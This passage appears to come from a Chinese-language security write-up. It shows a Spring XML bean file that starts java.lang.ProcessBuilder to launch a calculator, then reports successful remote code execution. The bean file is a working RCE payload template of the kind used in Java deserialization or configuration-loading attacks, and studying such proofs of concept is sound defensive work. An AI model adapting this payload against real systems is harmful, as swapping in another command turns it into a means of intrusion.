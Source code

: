 ```plain
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

最后成功 RCE

[![](assets/1701606889-784816bd72c8c1c251a9dca5e3b4c0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172608-b208aeba-73e1-1.png)
